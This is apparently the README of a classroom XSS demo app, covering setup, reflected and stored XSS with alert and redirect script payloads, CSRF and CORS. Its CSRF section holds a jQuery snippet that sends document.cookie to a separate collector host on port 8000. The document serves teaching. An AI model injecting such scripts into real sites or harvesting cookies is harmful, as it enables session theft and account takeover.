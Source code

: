 # Vulnerabilities in WebApplications: XSS


## Environment setup

1. `sudo apt-get install libffi-dev`
2. `sudo apt-get install virtualenv`
3. `virtualenv -p python3 venv`
4. `source venv/bin/activate`
5. `pip install -U setuptools && pip install -U pip`
6. `cd xss-demo/app`
7. `pip install -r dev_requirements.txt`
8.  `python setup.py develop`
9.  **Start the application:**  `pserve development.ini`
10. Access it on [http://localhost:6543](http://localhost:6543/ "http://localhost:6543/")


## Types  of  Cross-site  Scripting

![Server-XSS vs Client-XSS Chart.jpg](https://www.owasp.org/images/c/c6/Server-XSS_vs_Client-XSS_Chart.jpg)

## Reflected  XSS  Attack

In a Reflected XSS it is assumed that the attack is non-persistent.

With this attack it becomes possible to manipulate the browser Domain ObjectModel (DOM) for a single user, or for multiple users which access a page through the same specially crafted URL.

**Examples:**

 - Launch na alert to the user:  `http://localhost:6543/search?q=<script>alert("hi")</script>`
 - Redirect the user to another page: `http://localhost:6543/search?q=<script>window.open("https://www.google.pt")</script>`
​

## Stored  XSS  Attack

The Stored XSS Attack (or persistent) allows an attacker to place a maliciousscript (usually Javascript) into a webpage.

Victims accessingthe webpage will render all scripts, including the one injected by the attacker.

This attack is very common in place where information is shared betweenusers through web technologies (e.g., forums and blogs).

At the example of the class, we add a comments section where the body input is not protected, I will present some possible examples of this attack:

 - Loads an image to the comment: `<img src=‘img.png’></img>`
 - Launch na alert to the user:  `<script>alert("hello!")</script>`


## CSRF  Attack

The Cross-Site Request Forgery (CSRF) attack consists in injecting code that, using the credentials and capabilities of the browser viewing a given object, may attack another system.

This attack can be used for simple Denial-of-Service (DoS) or Distributed Denial-of-Service (DDoS), tracking users, or invoke requests on systems with the identity of the victim.

This exploits the fact that, for usability, functionality, and performance pur-poses, systems cache authentication credentials in small tokens named **cookies**.

This attack is frequently done using the `<img>` tag, however, other tags canbe used.
```
$.ajax({
    url: "http://localhost:8000/cookie",
    type: "POST",
    data: {
        username:"Joao",
        // we add the 'a' to blind init the cookie when the browser does not have the cookie's value stored
        cookie: "a" + document.cookie,
    }
});
```


## Cross-Origin Resource Sharing (CORS)

Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to tell a browser to let a web application running at one origin (domain) have permission to access selected resources from a server at a different origin.

A web application executes a cross-origin HTTP request when it requests a resource that has a different origin (domain, protocol, and port) than its own origin.
```  
<script>  
$.ajax({  
    url: "http://external:8000/smile.jpg",  
    type: "GET",
    headers: {
        "Image-Request": "this image will pass",
    },
    success: function() {
        alert("smile.jpg loaded");
    },
});
</script>
```

